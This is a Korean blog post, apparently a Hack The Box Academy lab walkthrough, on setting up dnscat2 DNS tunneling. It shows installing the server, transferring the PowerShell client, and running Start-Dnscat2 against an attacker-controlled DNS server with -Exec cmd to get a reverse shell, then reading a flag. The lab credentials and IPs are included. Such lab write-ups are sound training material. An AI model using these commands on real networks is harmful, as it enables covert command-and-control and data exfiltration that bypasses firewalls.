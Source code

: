 ```yaml
---
title: "DNS Tunneling with Dnscat2"
date: 2025-10-01
layout: single
excerpt: "**Dnscat2**는 DNS 프로토콜을 이용해 두 호스트 간에 암호화된 터널(커맨드 & 제어 채널)을 구성하는 도구이다. 데이터는 주로 DNS의 TXT 레코드(또는 기타 레코드) 내부에 인코딩되어 전송되며, 일반적인 방화벽/프록시 규칙을 우회하거나 탐지를 어렵게 하는 데 사용될 수 있다. 이 기법은 HTTPS 연결을 차단하거나 트래픽을 스니핑하는 방화벽을 회피하면서 데이터 유출에 악용될 수 있다."
author_profile: true
toc: true
toc_label: "DNS Tunneling"
toc_icon: "globe"
toc_sticky: true
tags: [networking, dns, tunneling, exfiltration, dnscat2]
categories: [network]
header:
  teaser: /assets/network-screenshots/dnscat2/dnscat2.png
  teaser_home_page: true
---
```


**Dnscat2**는 DNS 프로토콜을 이용해 두 호스트 간에 암호화된 터널(커맨드 & 제어 채널)을 구성하는 도구이다.  
데이터는 주로 DNS의 TXT 레코드(또는 기타 레코드) 내부에 인코딩되어 전송되며, 일반적인 방화벽/프록시 규칙을 우회하거나 탐지를 어렵게 하는 데 사용될 수 있다.  
이 기법은 HTTPS 연결을 차단하거나 트래픽을 스니핑하는 방화벽을 회피하면서 데이터 유출에 악용될 수 있다.

---

# Dnscat2 설정 및 사용 실습

## 설치

먼저 `dnscat2` 저장소를 클론한다.

```bash
$ git clone https://github.com/iagox86/dnscat2.git

Cloning into 'dnscat2'...
remote: Enumerating objects: 6621, done.
remote: Counting objects: 100% (10/10), done.
remote: Compressing objects: 100% (10/10), done.
remote: Total 6621 (delta 2), reused 0 (delta 0), pack-reused 6611 (from 2)
Receiving objects: 100% (6621/6621), 3.84 MiB | 28.90 MiB/s, done.
Resolving deltas: 100% (4566/4566), done.
```

그후 몇 가지 설정을 한다.

```bash
$ cd dnscat2/server/
$ sudo gem install bundler
$ sudo bundle install
```

설치가 완료되면 클론한 디렉토리에서 `dnscat2` 서버를 시작할 수 있다.

## 서버 시작

클론한 리포지토리의 서버 디렉토리로 이동한 뒤 서버를 실행한다.

![Netsh Port Forward Diagram](/assets/network-screenshots/dnscat2/server-start.png)

서버가 시작되면 콘솔에 `secret(예: c00d7a...)` 이 표시된다. 이 키는 클라이언트와의 암호화/인증에 사용되므로 클라이언트에 동일한 `--secret` 값을 제공해야 안전하게 통신할 수 있다.

## 공격 호스트에 dnscat2-powershell 복제

공격 호스트에 Windows용 클라이언트로 사용할 `dnscat2-powershell`을 클론한다.

```bash
$ git clone https://github.com/lukebaggett/dnscat2-powershell.git

Cloning into 'dnscat2-powershell'...
remote: Enumerating objects: 194, done.
remote: Counting objects: 100% (6/6), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 194 (delta 0), reused 2 (delta 0), pack-reused 188 (from 1)
Receiving objects: 100% (194/194), 1.27 MiB | 22.74 MiB/s, done.
Resolving deltas: 100% (59/59), done.
```

이후 문제에서 제공한 아이디/비밀번호(`htb-student/HTB_@cademy_stdnt!`) 를 이용하여 RDP 세션에 접속한다.

```bash
$ xfreerdp3 /v:10.129.42.198 /u:htb-student /p:HTB_@cademy_stdnt!
```

이후, `python3` 웹 서버를 열어 공격 호스트에 `dnscat2.ps1` 파일을 옮겨준다.

```bash
$ python3 -m http.server 9999
```

공격 호스트에 `wget` 명령어를 이용하여 다운로드 한다.

![Netsh Port Forward Diagram](/assets/network-screenshots/dnscat2/wget.png)


## 세션 설정

`Import-Module` 명령어를 이용하여 `dnscat2.ps1` 스크립트를 불러온다.

```powershell
C:\Users\htb-student> Import-Module .\dnscat2.ps1
```

이후, 로컬에서 실행 중인 **dnscat2 서버의 주소와 도메인, Secret 키를 사용**해 클라이언트를 시작한다.

```powershell
C:\Users\htb-student> Start-Dnscat2 -DNSserver 10.10.14.89 -Domain inlanefreight.local -PreSharedSecret c00d7a451bf93fa63626874a78d0f5da -Exec cmd
```

설정 후 나의 로컬 쪽 dnscat2 터미널로 돌아가면 다음과 같이 **세션 연결** 로그를 확인할 수 있다.

![Netsh Port Forward Diagram](/assets/network-screenshots/dnscat2/session-connect.png)

이후 `dnscat` 콘솔에서 리버스 연결로 생성된 세션 창을 선택(`window -i 1`)하면 `C:\Users\htb-student` 사용자의 쉘을 획득할 수 있다.

![Netsh Port Forward Diagram](/assets/network-screenshots/dnscat2/whoami.png)

`whoami` 명령어를 사용하여 해당 세션이 **officemanager 도메인 OR 호스트 소속의 htb-student 계정**임을 확인할 수 있다.

## Flag 획득

문제에서 제공한 `C:\Users\htb-student\Documents\flag.txt` 경로의 파일을 읽어 플래그를 획득하였다.

![Netsh Port Forward Diagram](/assets/network-screenshots/dnscat2/flag.png)

이로써 **Dnscat2** 실습을 마쳤다.



